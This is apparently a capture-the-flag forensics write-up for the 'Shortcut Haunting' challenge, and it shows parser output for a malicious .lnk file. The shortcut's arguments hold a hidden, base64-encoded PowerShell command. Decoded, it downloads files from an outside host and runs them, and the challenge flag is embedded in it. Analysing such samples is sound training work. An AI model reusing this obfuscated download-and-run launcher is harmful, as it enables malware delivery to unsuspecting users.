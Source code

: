 # The Shortcut Haunting
[Challenge](forensics_the_shortcut_haunting.zip)

## Description

While going through your Halloween treats, a strange message appears: "Trick or Treat?" Curious, you click, and suddenly a mysterious .lnk file appears on your desktop. Now it's up to you to investigate this spooky shortcut and find out if it’s just a trick—or if it’s hiding a darker secret.

## Solution

題目給一個捷徑檔，使用 [LnkParse3](https://github.com/Matmaus/LnkParse3) 看裡面的內容

```console
D13@MacBook-Pro Downloads % lnkparse trick_or_treat.lnk 
Windows Shortcut Information:
   Guid: 00021401-0000-0000-C000-000000000046
   Link flags: HasTargetIDList | HasName | HasRelativePath | HasArguments | HasIconLocation | IsUnicode | HasExpIcon - (16621)
   File flags: (0)
   Creation time: null
   Accessed time: null
   Modified time: null
   File size: 0
   Icon index: 70
   Windowstyle: SW_SHOWMINNOACTIVE
   Hotkey: CONTROL - C {0x4302}

   TARGET:
      Items:
      -  Root Folder:
            Sort index: My Computer
            Guid: 20D04FE0-3AEA-1069-A2D8-08002B30309D
      -  Volume Item:
            Flags: '0xf'
            Data: null
      -  File entry:
            Flags: Is directory
            File size: 0
            File attribute flags: 16
            Primary name: Windows
      -  File entry:
            Flags: Is directory
            File size: 0
            File attribute flags: 16
            Primary name: System32
      -  File entry:
            Flags: Is directory
            File size: 0
            File attribute flags: 16
            Primary name: WindowsPowerShell
      -  File entry:
            Flags: Is directory
            File size: 0
            File attribute flags: 16
            Primary name: v1.0
      -  File entry:
            Flags: Is file
            File size: 0
            File attribute flags: 0
            Primary name: powershell.exe

   LINK INFO: {}

   DATA:
      Description: Trick or treat
      Relative path: ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
      Command line arguments: -WindowStyle hidden -NoExit -Command "$fko = 'aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=';$dwQWf
         = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($fko));Invoke-Expression -Command $dwQWf"9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
      Icon location: C:\Windows\System32\shell32.dll

   EXTRA:
      ICON LOCATION BLOCK:
         Size: 788
         Target ansi: '%SystemRoot%\System32\shell32.dll'
         Target unicode: '%SystemRoot%\System32\shell32.dll'
      SPECIAL FOLDER LOCATION BLOCK:
         Size: 16
         Special folder id: 37
         Offset: 221
      KNOWN FOLDER LOCATION BLOCK:
         Size: 28
         Known folder id: 1AC14E77-02E7-4E5D-B744-2EB1AE5198B7
         Offset: 221
      METADATA PROPERTIES BLOCK:
         Size: 149
         Property store:
         -  Storage size: 137
            Version: '0x53505331'
            Format id: 46588AE2-4CBC-4338-BBFC-139326986DCE
            Serialized property values:
            -  Value size: 109
               Id: 4
               Value: S-1-5-21-3849600975-1564034632-632203374-1001
               Value type: VT_LPWSTR
```

內容有一串編碼過的字串 `$fko`，使用 base64 解碼（[Cyber Chef](https://gchq.github.io/CyberChef/)）即可找到 flag